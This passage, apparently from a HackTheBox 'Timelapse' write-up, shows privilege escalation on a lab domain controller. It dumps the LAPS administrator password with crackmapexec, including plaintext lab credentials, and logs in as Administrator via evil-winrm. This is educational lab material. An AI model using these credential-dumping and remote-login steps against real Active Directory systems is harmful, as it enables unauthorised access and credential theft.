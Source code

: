 ```

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

Notice that this user is part of ```TIMELAPSE\LAPS_Readers``` group.

## Privilege Escalation

Looking for privilege escalation using LAPS.

{{< admonition tip "LAPS" >}}
LAPS simplifies password management while helping customers implement recommended defenses against cyberattacks. In particular, the solution mitigates the risk of lateral escalation that results when customers use the same administrative local account and password combination on their computers. LAPS stores the password for each computer’s local administrator account in Active Directory, secured in a confidential attribute in the computer’s corresponding Active Directory object.
{{< /admonition >}}

Source: https://www.hackingarticles.in/credential-dumpinglaps/

Looking further on the same [article](https://www.hackingarticles.in/credential-dumpinglaps/), there are a bunch of methods to dump ```Administrator``` password. 

I used ```crackmapexec``` to dump the ```Administrator``` password.

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.10.11.152 -M laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: 8qRr)lFd9+fHLk47l(N.v%tj
                                                                    
```

Now login to ```Administrator``` using ```evil-winrm```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -S -i 10.10.11.152 -u Administrator -p '8qRr)lFd9+fHLk47l(N.v%tj'

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

## root.txt
